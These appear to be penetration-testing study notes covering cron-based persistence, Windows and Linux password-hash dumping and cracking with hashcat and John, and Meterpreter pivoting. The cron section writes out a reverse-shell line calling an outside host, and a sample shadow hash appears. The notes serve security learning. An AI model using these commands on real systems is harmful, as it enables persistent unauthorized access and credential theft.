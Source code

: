     ### Persistence via Cron Jobs
    - Cron is a time-based service that runs applications, scripts and other commands at a fixed interval.
    - Linux equivilent to Windows Sheduled Tasks
    - cat /etc/cron* -> enumerate the CronJobs
    - Create a cron-file: echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/x.x.x.x/1234 0>&1'" > cron
    - Add the Cronjob crontab -i cron
    - Check if added: crontab -l
  
  ## Dumping & Cracking Windows Hashes
  ### Dumping and Cracking NTLM Hashes
    - We've already talked about windows hashes.
    - Windows OS stores hashes in SAM (Security Accounts Manager) database. (Hashed and stored here)
    - Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA)
    - LM hashes is disabled since windows vista. From then, Microsoft is using NTLM
    - Attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process cache, because we cannot copy the SAM Database while the OS is running.
    - NOTE: Elevated / Administrative privs are required in order to access and interact with the LSASS Process. (because its secured with a syskey)
    - How to dump (tools)
      - inbuild meterpreter "hashdump" command
      - mimikatz
    - We can crack the obtained hashes with:
      - John the Ripper
      - Hashcat
  
  ### Dumping and Cracking Linux Password Hashes
    - All information for all accounts on Linux is stored in the passwd file located at /etc/passwd
    - All the passwords for the users are encrypted in the shadow file. It can be found at /etc/shadow
    - The shadow file can only be accessed and read by the root account (so we need elevated privs!)
    - How are the encrypted passwords stored in the shadow file? Look at the number after the username encapsulated by the dollar symbol
      - Value: $1 -> MD5, $2 -> Blowfish, $5 -> SHA-256, $6 -> SHA-512
      - In most newer Distributions / Linux Versions, the standard hashing algo is SHA-512
    - Crack the hashes with hashcat:
      - Get Root Access
      - Copy the Shadow entry which you want to crack (e.g. root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:18348:0:99999:7:::) into another file.
      - In this case, we'll use the follwoing command to crack
        - hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
    - Or with john, we'll use:
      - john --format=sha512crypt hashes.txt --worlist=rockyou.txt
  
  
  ## Pivoting Overview
  ### Pivoting
    - Pivoting is a post exploitation technique that involves utilizing a compromized host that is connected to multiple networks to gain access to systems within other networks.
    - compromise the first machine and get a meterpreter shell. That's our starting point.
    - check the ipconfig / ifconfig
    - we'll need to add a route (run autoroute -s x.x.x.x/xx) (add the entire network)
    - because we can only reach the second target over the route we've just created, we'll need to use the inbuild meterpreter portscanner module (tcp)
    - search portscan
    - in this case, we found port 80 is open. But it would be mouch better to perform a real nmap scan. so we can perform portforwarding
    - within meterpreter session, run: portfwd add -l 1234 -p 80 -r x.x.x.x (That means we are portforwarding the remote (victim machine) port 80 to our local machine's port 1234